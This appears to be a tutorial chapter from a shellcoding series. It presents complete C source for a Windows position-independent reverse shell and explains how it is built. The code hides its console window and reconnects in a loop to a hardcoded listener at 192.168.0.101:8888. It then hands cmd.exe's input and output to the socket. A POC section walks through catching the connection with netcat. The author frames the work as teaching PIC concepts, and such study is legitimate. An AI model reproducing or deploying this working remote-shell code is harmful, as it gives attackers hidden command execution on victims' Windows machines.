


# Project Architecture

```
.
├── bin
│   └── shellcode.exe
├── include
│   ├── common.h
│   ├── core
│   │   └── win32.h
│   └── structs.h
├── makefile
├── scripts
│   └── extract.py
└── src
    ├── asm
    │   └── entry.asm
    ├── core
    │   ├── mem.c
    │   ├── strman.c
    │   └── win32.c
    └── main.c
```

# Reverse Shell

```c
void Main() {

    INSTANCE Instance = { 0 };
    InitInstance(&Instance);

    Instance.Api.pFreeConsole();

    char Host[] = "192.168.0.101";
    int  Port    = 8888;

    while(TRUE) {

        Instance.Api.pSleep(5000); 

        SOCKET      Socket  = { 0 };
        SOCKADDR_IN Addr    = { 0 };
        WSADATA     version = { 0 };

        Instance.Api.pWSAStartup(MAKEWORD(2,2), &version);
        Socket = Instance.Api.pWSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        
        Addr.sin_family      = AF_INET;
        Addr.sin_addr.s_addr = Instance.Api.pinet_addr(Host); 
        Addr.sin_port        = Instance.Api.phtons(Port); 
        

        if (Instance.Api.pWSAConnect(Socket, (SOCKADDR*)&Addr, sizeof(Addr), NULL, NULL, NULL, NULL) != SOCKET_ERROR) {
            char RecvData[DEFAULT_BUFLEN];
            MemSet(RecvData, 0, sizeof(RecvData));
            int RecvCode = Instance.Api.pRecv(Socket, RecvData, DEFAULT_BUFLEN, 0);
            
            if (RecvCode > 0) {
                STARTUPINFO         Si = { 0 };
                PROCESS_INFORMATION Pi = { 0 };
                
                CHAR ccmd[]  = { 'c', 'm', 'd', '.', 'e', 'x', 'e', 0 };
                CHAR cexit[] = { 'e', 'x', 'i', 't', '\n', 0 };

                MemSet(&Si, 0, sizeof(Si));
                Si.cb        = sizeof(Si);
                Si.dwFlags   = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
                Si.hStdInput = Si.hStdOutput = Si.hStdError = (HANDLE)Socket;
                
                Instance.Api.pCreateProcess(NULL, ccmd, NULL, NULL, TRUE, 0, NULL, NULL, &Si, &Pi);
                
                Instance.Api.pWaitForSingleObject(Pi.hProcess, INFINITE);
                
                Instance.Api.pCloseHandle(Pi.hProcess);
                Instance.Api.pCloseHandle(Pi.hThread);
                
                MemSet(RecvData, 0, sizeof(RecvData));
                RecvCode = Instance.Api.pRecv(Socket, RecvData, DEFAULT_BUFLEN, 0);
                
                if (RecvCode > 0 && StringCompareA(RecvData, cexit) == 0) {
                    Instance.Api.pExitProcess(0);
                }
            }
            
            Instance.Api.pclosesocket(Socket);
        }
        
        Instance.Api.pWSACleanup();
    }
}
```

Let's go straight to the reverse shell. First, the function FreeConsole() is used to disable the console window so it won't be visible to the user. Then, there's a Sleep with an infinite loop that will sleep if disconnected and then try to reconnect. Next, we'll open a SOCKS connection to our Host and Port. After setting everything up, it tries to connect to the server. If the connection is successful, it receives data from the server and stores it in a buffer. Therefore, we'll create a process with CreateProcess WinAPI, initializing cmd.exe, and initializing the PROCESS INFORMATION and STARTUPINFO structures.

PROCESS INFORMATION is filled with the main Thread ID, Process ID, Handle for the Process, and Handle for the main Thread. STARTUPINFO is used to set up input and output redirection for the created process.

```c
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
```

The STARTUPINFO structure contains details about everything that needs to be done before the process starts. We are using this structure to redirect input and output to the socket handle.

```c
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
```

# POC

This POC will be quite simple; I'll use the Loader (Ldr) again, as explained in the parent chapter of shellcoding. The first step is to compile the entire project, and for that, I'll use the makefile again with the command make.


Now we need to open a port with netcat to receive the reverse connection.



Now we will execute the Loader (Ldr) to run our payload.


Now we'll check our listening server and see that we've received the connection. 😁



# Observations

When executed, the reverse shell will spawn a cmd.exe as a child process. The idea of the shellcoding project is by no means to be evasive, but rather to explain PIC (Position Independent Code) concepts in general.

## [Github Repository](https://github.com/Entropy-z/Shellcoding-Reverse_Shell)

